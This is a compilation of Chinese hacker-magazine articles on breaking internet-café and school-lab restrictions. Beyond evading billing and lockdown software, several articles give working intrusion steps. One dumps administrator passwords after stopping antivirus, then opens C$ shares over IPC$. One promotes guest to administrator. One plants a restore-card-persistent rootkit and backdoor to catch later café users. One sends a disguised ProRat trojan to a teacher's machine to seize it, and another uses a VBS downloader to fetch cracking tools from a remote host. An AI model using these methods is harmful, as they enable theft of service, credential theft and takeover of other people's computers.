前几天，我们上微机课，老师在讲台上唾沫飞溅地讲着他自己都搞不懂的内容，而大家也在下边无精打采地听着。关键是我们想玩也玩不了，电脑屏幕都被设置成了“黑屏”，并且锁定了键盘、鼠标。急得我就像热锅上的蚂蚁一样，重启了 N 遍的电脑，但无一例外地都被发现了……

对于那些电脑的情况，我很是郁闷，到底是怎么回事啊。老师也太神了吧，不会是给我们都安装了灰鸽子吧。突然，我在屏幕右下方发现了一个小人头，想必是这个小东西弄的？把鼠标移上去，哈哈，秘密解开了。原来使用的是凌波多媒体教学软件（图1）。

回家后，我在网上查询了很多资料，都没有找到关于它的破解程序，看来还是要靠自己了。于是，趁微机课，我开始了自己的破解行动……

#### 一、准备工作

我们要做的第一件事就是破解掉还原卡。万一破解了老师的教学系统，一重启计算机又还原了怎么办，那我们岂不是前功尽弃了？我们下载一个硬盘保护卡破解器（硬盘保护卡克星），如图2，一下子就破解了。

#### 二、开始破解

冰刃也不错，因为这个程序的一大特色就是可以查看每一个进程所对应的文件。打开程序，如图3，发现两个可疑进程 NCCIt.dll 与 NCStu.exe……并定位到 `C:\Program Files\lingbo\NetClass` 目录。

删除相关进程与文件夹后，程序仍会再次出现。作者怀疑老师部署了类似下载者的隐藏程序，并继续排查。

作者拿出“06年第六期黑客X档案”中介绍的 Kendy 下载者监视器，开启监视后删除目标网站相关文件夹，随后通过内存检索关键字 `www.bxsz.net`。

定位到程序地址 `http://www.bxsz.net/jiaoyugongju.exe` 后，作者通过修改 HOSTS：`127.0.0.1 www.bxsz.net`，将域名解析到本地，阻断下载。

> **小知识：hosts 文件是什么？**  
> 访问网站通常需经 DNS 解析为 IP。hosts 文件可提供本地静态解析，系统会优先检查 hosts，因此可用于加速或屏蔽特定域名。

#### 三、总结

作者总结：老师通过教学辅助软件结合下载者来控制学生电脑。遇到类似情况可用查看内存、进程等基础方法排查并处理。

### 菜鸟菜招突破磁盘隐藏

songweihanfei

在网吧里上网，我们经常会碰到系统盘被隐藏的情况，今天我就教给大家一招杀手锏，保证各位在网吧中一定能够打开所有隐藏的磁盘。

我上网的网吧不允许打开 CMD，但是在“开始”中有“运行”栏（图1），系统 C 盘也是被隐藏的（图2）。

首先说一下原理：把隐藏的系统盘设置成默认共享，然后找到管理员密码，通过“运行”栏进行访问。破解的原理就是这么简单，下面开始我们的操作。

因为我这里的 CMD 在“运行”栏中不能打开，所以我想到使用批处理文件。

- 1. 获取系统的管理员密码。方法有很多，但是不同的系统有不同的方法。我使用的操作系统是 WIN2000，所以使用的工具是 ADUMP.exe。当我在网吧里运行的时候，瑞星提示为 Hacktool.Getpsw（黑客工具，获取密码），如图3。我们来关闭瑞星的杀毒服务，在“运行”栏输入 services.msc，在“服务”中找到 RsRavMon Service，停止就可以了，如图4。

`adump -f 1.txt`

我们在“运行”栏中输入 notepad，打开记事本，输入 `adump -f 1.txt`，保存为 adump.bat。运行完这个批处理后我们就会得到一个 1.txt 的文件，结果如图5所示，这样我们就成功地获取了管理员密码。不过 ADUMP.exe 只适合于 WIN2000 系统，而对于 WINXP 系统，我们可以使用 awpr（Advanced Windows Password Recovery）。它的安装非常简单，基本上一路选择“next”就可以了；awpr 启动后，我们直接点击第一个图标“Logon password”，等一会儿，系统的明文帐号和密码就会显示在右边的窗口中了，如图6。

- 2. 开启 server 服务。在“运行”栏中输入 notepad，打开记事本，在记事本中输入 `net start server`，并保存为 server.bat，执行这个批处理文件就能开启共享服务了。为什么要开启这个服务呢？因为默认共享是依托于 server 服务存在的，如果没有开启 server 服务，计算机默认共享将无法被开启。

- 3. 再次通过“运行”栏打开记事本，输入 `net share c$=c:\` 并保存为 share.bat，运行后系统盘 C 就会被设为默认共享。

- 4. 接下来要做的是建立 IPC$ 连接，确认本地计算机已共享 IPC$，在记事本中输入图7所示内容并运行。

- 5. 在“运行”栏中输入 `\\192.168.1.135\c$`，回车后如图8所示，成功打开对方隐藏的 C 盘。

整个破解方法就到这儿……（文中涉及到的 ADUMP.exe、Advanced Windows Password Recovery 已收录到本期光盘中）

### 突破 Pubwin4 锁屏又一法

凯旋探梦 [B.M.T]

我们学校附近的网吧使用的网管软件都是 Pubwin4。虽然网上有不少破解教程，但很多不好用、复杂或不安全。作者描述了自己对常见方法的尝试与问题，并提出一种更稳定的替代方案。

为了实现免费安全上网，作者找到一个体积很小的软件“多桌面切换系统1.0”（文中称改壳版），其核心用途是创建新桌面并通过快捷键切换，从而绕过锁屏桌面限制。

- F9：显示本程序
- F10：切换回当前桌面
- F11：切换到另一个桌面

打开“多桌面切换系统2005”，点击关闭按钮将程序隐藏；若遇到锁屏，只需按下 F11 即可切换到新桌面。新桌面可继续运行应用与游戏。文末强调应灵活运用软件并注意安全。

### 突破 HR2004 型机房管理系统的封锁

gao200511

HR 是一款流行的机房管理系统，目前很多大学以及高中都在广泛使用，我们学校使用的就是 HR2004 机房管理系统。文章介绍了其运行环境、表现现象（如登录限制、任务管理器不可用等），并说明了作者对其机制与破解思路的分析过程。

文中提出通过启用 GUEST 账户并调整权限来绕过 HR 登录限制，随后按文件创建时间与目录位置（如 `WINDOWS\system32`、`TEMP`）筛查可疑文件，并对目标文件进行拒绝访问设置，从而阻断相关进程的控制逻辑。

```bat
net user guest /active:yes
net user guest hackerxfiles
net localgroup administrators guest /add
```

接着下载自动破解还原精灵工具，运行后重启并使用 GUEST 账户测试，若不再出现登录框则表示处理成功。

> （本文所涉及到的自动破解还原精灵最终版已收录到光盘中）

### 菜鸟和网管的较量

黑暗中的行者

学校附近有很多网吧，这些网吧为了更多地招揽顾客，几乎没有给上网者任何限制……所以我决定把学 Hack 的基地转移到那里。到那家网吧一上网，发现当前用户是超级管理员 Administrator，网吧管理软件是万象网管 2004 和易佰（ebest）网管专家，在操作上没有任何限制……

- 1. 网管禁用了 cmd 窗口和 bat 文件。使用 Registry Crawler 搜索 `cmd`，在 `HKEY_CURRENT_USER` 下发现 `DisableCMD` 键值为 1，删除后恢复了 cmd 和 bat 的正常使用。

- 2. 发现易佰网管专家（ebest）对网页和窗口限制较多。其进程为 `ebest.exe` 与 `formbase.exe`，先用 `tasklist` 查到 PID，再通过批处理同时结束进程。

```bat
@echo off
Taskkill /pid 1384 /F
Taskkill /pid 1424 /F
```

- 3. 万象网管会在余额不足时锁屏。通过万象破解器进入“系统设置”，取消如“禁止网络属性”等限制项，应用后恢复本地连接属性设置与正常上网。

- 4. 若“结帐下机”仍可用，可进一步在注册表中查找自动登录密码：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 下 `DefaultPassword`，再用 Administrator 在带网络连接的安全模式登录实现上网。

我和网管的较量到此就告一段落了。网管的限制不仅没有给我阻碍，反而让我得到了锻炼的机会……（本文所涉及到的 Registry Crawler 和破解器等已收录到光盘中）

## 现在 U 盘登录网吧

冰河洗剑

我们这儿有一家网吧可真够变态的，搞过好多网吧，可以说基本上都是手到擒来，可偏偏就是这一个搞不定，想要下载点儿东西都不行！一开始使用了一些在线破解工具，比如什么 FlashGet 在线下载工具和在线破解网吧限制之类的，不过都没有成功，因为这些网页在线工具都是利用 Teogosoft 打包使用 ActiveX 运行的，必须先安装 ActiveX 控件才行。而网吧早已屏蔽了 ActiveX 插件，还破解什么东东啊！

#### 一、“小流氓”突破 ActiveX 控件禁制

好在后来想起 X 档案前几期中曾介绍过一个在线破解网站，好像叫什么“世纪黑马”，在网上搜索了半天终于找到了它的网址（http://www.huol19.com/）。之所以使用这个在线破解网站，是因为它里面有一个特殊的在线破解工具，这个工具不是利用 ActiveX 控件进行安装，而是利用了 IE 的漏洞进行下载。笔者试过之后发现，没有一个网吧管理软件可以阻挡这个破解网页！

打开网页后，点击“在线运行”链接下的“藏踪阁在线运行”（图1），打开在线运行软件列表页面。点击其中最上方的“网吧改敏2.0”链接，打开网吧改敏在线运行页面（图2）。在这里有两种方式选择运行，下面的是“Teogosoft”方式，这个是要用到 ActiveX 控件的，在网吧里面很难奏效，切记一定要选择点击上面的“小流氓./online1/ddv2_0.htm”链接，这样才能成功突破网吧限制！使用“小流氓”方式可以百分之百地破解网吧！

#### 二、下载软件何处寻

打开“小流氓”网页（http://www.huol19.com/online1/ddv2_0.htm），网页中会显示乱码，不过不要紧，等一小会儿，就会自动弹出一个提示框“世纪黑马提示你条件符合，请选择路径进行下载”（图3）。点击确定后即可打开下载保存对话框，一般不会有任何软件可以拦截到这个下载对话框的。

但是在保存的时候要注意，不要改变默认的路径。为什么呢？在进行保存时，由于网吧管理软件的限制，往往无法浏览到硬盘，或者即使浏览到了硬盘，但是也无法在指定文件夹中保存下载的文件。笔者在使用时，弹出的对话框中，保存“文件名”框中往往是灰色的；点击选择其它路径后就无法成功保存了，提示没有权限！

但是网吧管理软件再严格，总要允许用户有写入权限的文件夹，因为上网浏览查看一些网站时，都要写入 Cookies 信息或其它临时文件，所以必须存在这么一个文件夹是可写入的。破解网吧的秘诀小技巧就是由此得来的。一般来说，保存对话框中默认的路径就是这个可写入的路径，因此不要改变这个默认路径。在保存对话框中，选择保存“文件类型”为“*.* 任意文件”，默认的文件名为“Huol19com.rar”，确定后即可保存成功。

以后打开这个保存的 RAR 压缩文件，就可以破解网吧的各种限制了！不过问题又来了，我们无法查看网吧硬盘，怎么打开刚才保存的文件呢？

#### 三、RealPlayer 无功而返

笔者一开始是使用以前常用的方法——“RealPlayer 网页查看法”。运行 RealPlayer 播放器，点击菜单命令“视图”→“Real Guide”，在播放器下部将会显示 RealPlayer 的网页浏览器。在“地址栏”中输入 `C:\`，回车后即可打开硬盘 C 分区（图4）。有些网吧的管理软件会对硬盘分区读取作了限制，浏览器中显示的文件夹都是灰色的，双击其中的文件夹时，提示权限不够无法打开文件夹。这时只需直接在地址栏中输入文件夹的绝对路径，回车后就可以打开文件夹了。

> 小提示：RealPlayer 能够查看网页是因为其内置了网页浏览组件；在网吧环境中可尝试通过其地址栏直接访问路径来定位文件。

这个方法对好多网吧都是有效的，没想到今天这个网吧竟然不吃这一套，刚打开 RealPlayer 的网页浏览器，就自动关闭掉了！怎么办呢？难道小流氓运行不了吗？

#### 四、QQ 记事本显神威

笔者所碰到的情况是非常普通的：在网吧中下载了软件却无法运行！如何才能对硬盘中的文件进行操作呢？我思考了好久，都没有想到什么答案，只好无聊地登上 QQ，对着 QQ 一边乱点一边想办法，没想到乱点中居然还真给我发现了一个 QQ 的大漏洞！下面就介绍笔者发现的 QQ 记事本漏洞，可以随意运行打开硬盘中的程序和文件。

在 QQ 上切换到“网络硬盘”面板，当然了，网络硬盘组件都给删除掉了，不过上面还是有“记事本”和“升级”按钮的（图5）。我们要利用的就是记事本小工具。点击“记事本”，打开网络记事本对话框，点击工具栏“新建”按钮。在书写窗中点击右键，选择“插入对象”命令（图6），在弹出对话框勾选“由文件创建”，在“文件”中输入刚才记下的小流氓的保存路径，这里为 `C:\Documents and Settings\Administrator\桌面\Huo119com.rar`，勾选“链接”项（图7）。点击确定按钮，在记事本窗口中就插入一个程序对象链接，也就是刚才保存的小流氓压缩包（图8）。

双击压缩包，弹出包裹程序提示对话框，询问是否解压打开，确定后就可以用 WINRAR 打开我们下载的程序了（图9）。打开压缩包后，运行里面的破解程序“DDV.exe”，就可以突破网吧的各种限制了。

我觉得最实用而且有效的功能是“98DOS”：可以打开一个 98 系统中的 DOS 窗口。普通情况下 XP 的 CMD 是被网吧管理软件给禁止了的，98 DOS 是绝不会被禁止的，可以有效突破网吧软件的限制，执行各种文件操作修改删除等功能（图10）。这次网吧破解经历真是有意思，QQ 记事本漏洞可不仅仅能打开下载的压缩包，只要知道路径，硬盘中的任何程序和文件都可以任意运行哦！

### Rootkit 助你绕过网吧还原卡

在网吧种木马向来是我们小菜的优良传统，可是如果我们的木马隐蔽性不够高，正好碰巧有个比你牛 N 倍的高手坐了被种了马的机器，那我们的小马不但完了，很可能连收信邮箱也一起遭殃，那怎么办啊，所以应该有个工具来隐藏我们的木马。

大家听说过 byshell 吗？它是一个 ring3 下的后门。当后门启动后，它会删除自己的启动项、删除硬盘文件，然后截取关机的消息，再重新写入启动项和硬盘文件。这样能够避免杀毒方式。但是现在的网吧，有许多人都是直接按 reset 键来重启的，这样，就算我们种下了 byshell，存活的可能性也不高。可是网吧也有一点好处，那就是有还原卡，这就给我们提供了一个绝好的机会。

废话不说了，看我们今天的主角——NetbarRootkit 吧，这是我最新出炉的作品，目前绝对免杀，卡巴不识别（刚诞生，当然不会被杀了），如图1。

先来介绍一下原理：在有还原卡的网吧环境下，我们对电脑的任何修改，一旦重新启动后，都会全部恢复。所以我们在使用 NetbarRootkit 前必须先将对方的还原卡破解掉，关于破解还原卡的方法详见以前的 X 档案。成功破解还原卡后，再将 NetbarRootkit 给对方种上。然后恢复还原卡，因为 NetbarRootkit 已经被种上了，等到系统还原的时候，我们的 Rootkit 就会被还原回来（我们的木马靠还原卡活上了）。另外，我们的木马在启动的时候，会将自身的注册表启动项删除，再将硬盘文件删除，隐蔽性非常高，是很难被发现的。

Byshell 要在系统关闭前重新写文件写注册表，而我们的 NetbarRootkit 是已经写入硬盘而受到还原卡的保护，反而不用那么麻烦了。好了，现在开始实战。首先双击，会看到帮助信息，如图2。用法很简单，格式就是 `NetbarRootkit "你的可执行文件名"`。我们来配置一个比较古老的后门 winshell（当然大家也可以换成其它的免杀后门，至于其制作方法详见本期的主题乐园），如果你会编程的话，还可以放心大胆地把它的启动模块删除掉，因为 NetbarRootkit 提供了启动功能。

netbarRootkit 的同级目录下（其实不放在同级目录下也是可以的，只不过要输入长长的路径，比较麻烦），然后输入 **netbarRootkit winshell.exe**（注意，这里必须带后缀），然后就什么都不用管了，直接恢复还原卡。这时候我们的 netbarRootkit 和木马已经保存好了，不过还没启动呢，注意一点，这里不可以再次重启，因为启动后启动项会删除的，一旦还原卡“记下”这次的状态，我们就白玩了。现在重新启动一下系统试一试，是不是没有启动项啊，也没有进程了对不对？可是使用 IceSword 可以看见 netbarRootkit 的进程“...exe”（终于明白为什么那么多的黑软件都把绕开 IceSword 的检测作为终极目标了）……不过其它的软件没有发现我们的进程，任务管理器就更不用说了，即使从安全模式下启动，也只会发现 netbarRootkit 的启动项，不过这个工具仅在网吧的还原卡环境下有用（而且必须是 NT 内核下，也就是 2000/XP/2003 有效），其它环境下使用，丢了肉鸡别找我哟。

### 突破——冲出代理服务器的禁锢

[Z]FaNT_C


这周最郁闷的事情莫过于学校机房改用代理服务器上网了，还很有理由说是“为了杜绝在上课时候聊 QQ 和打游戏的行为，经学校研究决定，从 xx 时候开始统一使用代理服务器上网，请同学们打开 IE 后点击工具→Internet 选项→……”都闷啊，我可是良民！从来不上 QQ，也不玩游戏的啊！为什么要受到这种待遇啊！！（老师：其实平时就他上课时候打 war3 打得最凶……）

好了，其实不打游戏，不聊 QQ 也没有什么，毕竟这本来就是不允许的，可是 2 周才一次的电脑课，不打魔兽可惜啊，因为学校的电脑配置太牛了，P4 3.2 的 CPU，1G 内存，9600 SE 显卡，统一配置还原卡，不支持 JavaScript，最重要的是还有 10M 光纤，简直就是梦幻配置。那么现在我委屈点上论坛灌水好了，结果却如图 1。


果然是老师，连我们喜欢去什么网站都知道，统统被屏蔽了，最后我来到了我们可爱的黑 X 论坛，一进门就有如回到家一样，哭呀，也被屏蔽了。FaNT_C 生气了，后果很严重！我要打魔兽，我要打 DOTA！你不让我玩，我就拆了你！

我的兵器全在 QQ 里了，先去下个 QQ，来到 im.qq.com，不出所料，被屏蔽了，于是到 Google 搜索个下载，结果却如图 2。


后来才发现，原来不止是网站，连很多后缀都屏蔽了，估计是防止大家下载。初步测试发现 .exe、.com、.txt、.rar 和 .zip 等常见的都被屏蔽了，甚至包括 .swf 也是。也就是说，代理服务器阻止了我们几乎任何超出课程范围的活动，原理就是屏蔽 URL 中的关键字。于是那堂课我什么也没有做成。

我平时接触局域网的机会也不是很多，所以也没有遇到过这种 BT 的限制，于是只有在家里冥思苦想了。经过无数个日日夜夜的思考，终于在迷雾之中找到了阳光（谁的砖头）。为什么这么说，因为我们不是缺少工具么？工具啊，不就是后缀而已么，想想看啊，学校机房有一种后缀是绝对不会屏蔽的，啊啊，猜到了吧，就是传说中的 .htm，这个是绝对不会屏蔽的……

不过还怎么浏览网页啊！突破口就在这里了，只要把后缀名改一下，down 下来以后再改回来就 OK 了！经过我的实地考察，代理服务器就是教师机，也就是说我们只要黑了教师机，就能自己解除代理服务器的种种限制了。有了突破口，现在就开始干，打开 ProRat，先做个木马，如图 3。


现在就是把它上传到一个地方去，并且不能是网络硬盘之类需要 Java 的地方，什么地方好呢？听说 Google 有个 Page？啊啊，就是它（用已有的 Gmail 帐号就能申请，需要等待认证才能开启服务）。打开我的 GooglePage，再将刚才的服务端 sever.exe 改为 index.htm 后上传，注意后缀，如图 4、图 5、图 6。


## 网吧黑客


改回 .exe 就 OK 了。


将主程序和 sever 端都传上去，然后在主页上面做个链接给这个文件（因为到时候我们不能登录，这样就能在主页上面直接下载），如图 7。


看到这个 sever.exe 和主程序了吧！这样就为了下次上机的战斗作好了准备。或许你会疑问：为什么不做个免杀？因为教师机是没有安装杀毒软件的，呵呵，这点我很早就留意过了，貌似局域网就不怕人放毒似的。到了下次上机的时候只需要将 sever 和客户端下载下来就可以了，注意的是我们不能直接点击该链接，否则就会出现乱码，如图 8。

因为这个根本就不是网页文件，要在链接上面点击右键，选择“目标另存为”，如图 9。然后保存为本地文件，再将 .htm 改回 .exe 就 OK 了。

最后夹带着作业一起交给老师，就像我们平时挂马一样简单，之后就可以等着肉鸡上线了。终于肉鸡上线了，教师机果然就是方便，自己做个代理连上，一切就恢复原样了，呵呵，可别让老师知道啊，如图 10。


（本文所涉及到的 ProRat v1.9 已收录到光盘中）

### 突破——冲出杀毒服务漏洞的禁锢


## 5 网管软件的一次较量

elbersame

我经常到我家附近的一个网吧去玩儿，这家网吧的配置真的不错，可唯一的缺点就是费用太高了，网吧老板对此的解释是“人分配置，一分钱一分货”，居然连这里也都说得出来，真是服了他了。于是，我萌生了破解网吧管理系统的念头。

网吧并没有使用刷卡制度，网管在前台的计费主机上给客人随机生成一个 5 位纯数字帐号和密码，开机后出现一个输入用户名和密码的提示框（图 1），而且鼠标也被限制在输入框内。


图 1

我同时按下 CTRL+ALT+DELETE，想调出任务管理器，却发现任务管理器竟然是一闪而过。没办法，我只好花钱充值后登录。登录后，我看了看屏幕的右下角，发现计费系统使用的是龙之千禧管理系统（图 2），看来不太好对付。


图 2

我重新按 CTRL+ALT+DELETE，成功地调出了任务管理器。在任务管理器的进程中发现了不少“可疑分子”（图 3）。


图 3

于是尝试结束计费系统的进程，如 MDM.EXE、svcpro.exe、ezCTRL.exe、ezDeskCtrl.exe，可结束完进程后发现计费系统的图标在任务栏中仍然屹立不倒（图 4）。


图 4

看来，极有可能是计费系统使用了线程插入技术插入到了某个关键系统进程中，才导致这个管理系统无法结束。我决定使用 CMD 下的“TASKKILL /PID XXXX”尝试结束那些关键进程。结果一不小心结束了 RPC，系统显示“40 秒内重新启动”，晕，失败了。

系统重新启动后，按 F8 键，然后选择“目录服务恢复模式”。系统启动后桌面是黑色的，仍然会弹出让人输入用户名和密码的窗口，我乱按一阵，突然发现虽然管理系统会自动结束任务管理器的进程（taskmgr.exe），但是如果我们按住 CTRL+ALT+DELETE 键不放，任务管理器就会不停地闪烁，勉强可以使用。在“应用程序”下发现一个“桌面”，这是什么？此时我电脑上并没有运行其它程序呀？过了一会儿提示程序没有响应。难道……


图 5

这是网吧管理系统？灵感乍现，以前 X 档案上说结束 explorer.exe 可以使桌面失去响应，说不定网管软件是插入到 explorer.exe 中的！于是我重新正常启动 WINDOWS，在屏幕出现管理软件输入用户名和密码的地方按住 CTRL+ALT+DELETE，试图结束 explorer.exe（图 6），却发现鼠标不能移动到“结束进程”那里。


图 6


图 7

没关系！我们使用 TAB 键切换输入点，使用上下键选择进程，使用快捷键 E 结束 explorer.exe 进程（终于明白 WINDOWS 为什么要有快捷键了，原来是为了方便我们小菜）。结束了 explorer.exe 进程后发现桌面什么也没有了（图 6），使用 TAB+左键切换向“应用程序”选项，选择“新任务(E)”，然后输入 explorer.exe 重新运行桌面。哈哈，这下子网管软件的图标彻底消失了（图 7），再关掉那些可疑的进程，就可以安心得享受我的互联网之旅了，任务栏缺少一个图标，网管是很难发现的哦！

### 网吧电影，我也要免费看

文章难易度：★★  
文章阅读点：简单的小技巧，突破网吧不允许下载电影的限制

—于画相

我在 G 宝盈开了一个个人空间，想把一些电影和单机游戏传上去。当然了，这类资源通常网吧里非常多，于是我打算将网吧里的一些电影及游戏上传上去。可是这家网吧服务器里的电影却只能以打开网页的形式观看，不允许下载到自己使用的电脑上……


网吧以前是直接访问硬盘就可以观看电影，但现在却是个叫“火影堂”的程序来管理的。注意 IE 地址栏写的是“http://move/”，将地址转换为“\\move\”后，出现对方硬盘页面，电影、动画等一览无遗。


目前的网吧收费系统种类繁多，因此如果想要免费上网的话，它们的破解方法也就不一样。但对于只想免费玩单机游戏的朋友却有一种方法是通杀各种收费系统的：在“网上邻居”与“本地连接”中进行属性与停用设置即可。

## 破解磁盘限制我用磁盘管理

magic dog

最近碰到一个网吧，乍看之下各种限制做得都很齐全。通过 IE 地址栏输入盘符路径进入系统盘的方法行不通，浏览器工具栏上的“文件”菜单已经不在了，无法通过“文件→打开”进入系统盘（图 1）。


禁止运行 CMD（所以批处理文件也不起作用），注册表里找不到“文件夹选项”（图 2），企图使用共享文件夹和管理员文件夹进入系统盘也失败了（图 3）。


本想通过查看网页源代码，删掉里面的内容，再在其中写入如图 4 所示的内容，然后保存为本地的 htm 文件。运气好时可借此进入 C 盘，但事实总是残酷的，这种做法再次被计算机限制，无法进入 C 盘。

最后只好使用“F1 破解式”。网管并没有限制“帮助”（提示：要在桌面上按下 F1 键，一般来说当前光标激活的是什么程序，那么显示的便是相应的帮助），如图 5。

从帮助中试图进入“资源管理器”和“组策略”，发现也都被限制了，但是想要进入被限制的磁盘还是有办法的，在帮助中找到“计算机管理”，点击打开，如图 6。

在接下来弹出的窗口中选择“磁盘管理”，如图 7。


哈哈，成功了！只要双击那个有磁盘图标的“新建文件夹”便可以进入 C 盘了。


在图 7 中的“C 盘”处点右键，选择“更改驱动器名和路径”（图 8），弹出如图 9 所示的窗口。然后依次点击“添加”——“浏览”，如图 10、图 11。在列表里随便选择一个可以访问的盘（网吧只禁止了 C 盘），然后点击“新建文件夹”按钮，一路确定下去，我们打开 D 盘看看，如图 12。


### 让网吧破解不再重复

最近，到网吧中上网，使用 FLASHGET 下载了一些黑客动画，想给自己充充电。我们都知道 FLASHGET 下载文件的默认地址是在 C:\downloads，下载完毕后我才发现 C 盘被隐藏了。个人认为打开隐藏的磁盘，最好的办法是使用组策略。打开“开始”——“运行”栏，输入 gpedit.msc 启动组策略，发现系统居然找不到组件，相信很多朋友也曾经遇到过这种问题，别急！这难不倒我们。在“运行”栏中输入 mmc 打开“控制台”，如图 1。

然后依次打开“文件”——“添加/删除管理单元”，单击“添加（继续下文）”。


单击“添加”按钮，找到组策略，选中后点击“添加”按钮就可以了，如图 2。

添加成功后，找到“用户配置”——“管理模板”——“WINDOWS 组件”——“WINDOWS 资源管理器”，找到其中几个“已启用”的选项，设置为“禁用”就可以了，如图 3（我测试的环境是 WIN2K+PUBWIN4+小哨兵还原卡），这样我们就成功地解除了管理员的限制。

另外还有很多限制，比如找不到“我的电脑”的“管理”项，“任务管理器”被禁用等。虽然都可以把这些限制一一解除，但是却也存在一个问题。相信大部分和我一样的菜鸟每天都会去网吧并且往往去的是同一个网吧，难道每次都需要破解吗？非也！我们可以使用一个操作录制工具，把操作过程记录下来，等下一次来上网的时候，可以直接使用这个工具，让工具来代替我们操作。我向大家推荐一个不错的工具——模拟精灵，软件运行后如图 4 所示。

单击“开始记录键盘鼠标事件”，就可以对操作进行记录了，当然也可以使用软件提供的快捷键。当破解过程完成后，单击“完成录制/停止回放”，然后单击“导出文件到记录文件”，保存为 pojie.ape。把模拟精灵和生成的文件传到网上的磁盘空间或者 U 盘中，当再次到同一个网吧上网的时候，直接单击“从文件导入记录”，把刚才生成的 pojie.ape 导入软件，单击“回放键盘鼠标事件记录”，这样软件就可以自动完成网吧破解的操作了。

从此以后，我们再也不用因为还原卡的原因而每次都手动破解网吧限制了，现在知道什么是“一劳永逸”了吧！

## 让“时间”来破解万象2006

冰河洗剑

昨天去附近的网吧上网，结果网吧停止营业，据说是全面升级管理软件，不知道又要换上什么烦人的系统了。今天去时，发现已经换上了最新的万象2006 6.9.8.1057-Beta2 版，9 月 8 号才升级更新的！上网看了看该版本的说明：……数据处理与收费点彻底分离，避免了收费机出现故障而引起数据破坏，2006 采用 UDP 协议，从而避免了使用 IPX 协议脱管现象的出现……看介绍对象很强大，唉，以前那些免费上网的方法用不上了，以后在网吧里玩没那么自由了。看来不破解万象2006，我在网吧的日子不会好过！

### 一、变态的万象2006

万象2006 自带了浏览器（可以不使用 IE 了，从一定程度上减少了感染木马的机率），在自带的浏览器中打开网页后，点击右键，发现右键菜单中只有几个前进后退和刷新的命令。尝试一下点击下载文件，弹出了文件保存框，但是文件保存框只能放在桌面上。下载完毕后，“打开”按钮也是灰色的（图 1）。

我试了试老办法，在浏览器地址栏输入“C:\”，敲了好几下回车，什么反应都没有。再按下 CTRL+ALT+DEL 键，晕死了，只有一个关机项，连任务管理器都调不出来（图 2）！我只好乖乖点“取消”，返回了空荡荡的桌面。打开 QQ，网络硬盘空空如也，可恨的是连 QQ 记事本也给删除了，我的记事本秘技第一次失效。其它软件的相关浏览功能也给禁止了，本想浏览一些可以在线攻击网吧的网站，哪知道这些网站都被屏蔽掉了。连我平常使用的“世纪黑马”也打不开了！——极其郁闷呀！

#### 二、“时间”实现曙光

我无聊地在桌面上东点西点，想要找点什么有用的东西，一不小心，点开了桌面右下角处的“日期和时间”设置对话框。这个东西看起来根本就没有什么利用价值，不过我一向对于这些看似普通的东西都异常地关注。

仔细地看了一下前两个选项，当我点开“Internet 时间”选项时终于有所发现，大家仔细看选项最下方，有一个“……请参阅帮助和支持中心的时间同步……”的信息，信息中的“时间同步”几个字是蓝色加下划线的链接形式（图 3）。


怀着激动的心情点击“时间同步”链接，OK，成功地弹出了 Windows 系统的帮助和支持中心对话框（图 4）。有了帮助和支持中心，可就好办事了，不管是通过“工具”、“索引”还是“搜……“索”都可以轻易地运行程序，浏览硬盘自然更是不在话下了。


图4

#### 三、初战失败

与以前 Windows 2000 输入法漏洞不同，在 Windows XP 的帮助中心不能直接通过“跳转”命令跳到硬盘中，但是在这里却可以直接运行和打开程序。

先在“搜索”中输入了一个“任务管理器”，点击搜索，在下面很快就找到了结果。点击结果列表中最下面的“任务管理器”条目，在右边可以看到“打开任务管理器”的字样，里面的“任务管理器”是蓝色下划线链接的。直接点击它一试，居然提示任务管理器已经被系统管理员禁用（图5），不用想，什么注册表编辑器之类的也被禁用了。


图5

#### 四、进入硬盘

看来只能从 Windows 中一些不常见的系统程序入手了。在帮助中心中搜索“组策略”，点击搜索结果最下面的“组策略”，在右边点击“打开组策略”，就打开系统中的组策略管理器了。但是还没等操作，组策略就被网吧管理软件关掉了。于是再搜索“资源管理器”，成功地打开了资源管理器，但是看不到任何盘符，在地址栏中直接输入路径也无法查看（图6）。


图6

怎么办呢？其实简单的方法就可以让硬盘分区重现。在资源管理器中虽然隐藏了硬盘分区，但是“我的文档”是绝对没有隐藏的。经过笔者测试，百分之百的网吧都是这样的。点击“我的文档”→“图片收藏夹”，双击其中的“示例图片”文件夹，就跳到了“C:\Documents and Settings\All Users\Documents\My Pictures\示例图片”下，此时 C 盘便显示出来了（图7）。什么命令提示符、注册表编辑器、管理工具都可以运行了。虽然不能使用右键，但是可以通过记事本新建注册表（.reg）文件，导入注册表中，来破解下载限制和硬盘隐藏限制。


图7

#### 五、突破限制下载

现在最关键的是如何下载文件运行我们需要的网吧破解工具。使用 IE 是不行的，想来想去，突然想到以前入侵时，常常使用 VBS 脚本在命令行下下载文件。于是先浏览运行了 C 盘系统目录中的“cmd.exe”，结果提示被管理员限制（图8）。再运行“c:\windows\system32”目录下的“command.com”，成功地打开了命令窗口（在所有禁止了命令提示符窗口的网吧中，百分之百都没有禁止“Command.com”命令窗口的使用）。


图8

使用 echo 命令或者直接使用记事本写入如下代码：

```vb
set xPost = createObject("Microsoft.XMLHTTP")
xPost.open "GET", "http://down1.lwdown.com/down/tools/jrwbtools.rar", 0
xPost.Send()
set sGet = createObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile "c:\dc.rar", 2
```

其中，“http://down1.lwdown.com/down/tools/jrwbtools.rar”是要下载的破解网吧工具或其它软件，我选择下载的是“精锐网吧破解辅助工具 V5.6”，“c:\dc.rar”是指定的保存路径和文件名。将代码保存为 .vbs 文件后缀，在“Command.com”命令行中运行该 vbs 文件，等一会儿，返回到提示符则表示下载完毕（图9），直接输入“c:\dc.rar”就可以使用 WinRAR 打开下载的压缩包，执行其中的“精锐网吧辅助 V5.6.exe”即可。


图9

“运行文件”按钮，运行下载的文件（图11）。而且工具还自带了资源管理器，点击“资源管理器”选项，可以看到所有被隐藏的硬盘和文件夹（图12），可以任意运行和编辑各种文件。在精锐网吧辅助工具的帮助下，可以完全解除万象 2006 的各种限制，自由地上网。


图12

## 六、完全破解万象2006的限制

精锐网吧辅助工具非常强，运行程序后，在“限制恢复”选项中点击“解除下载限制”“恢复隐藏硬盘”按钮，就可以在 IE 中下载文件，并可以完全查看硬盘中所有被隐藏的分区了（图10）。点击“恢复所有限制”按钮，可以破解大多数网吧管理软件的限制。


图10


图11

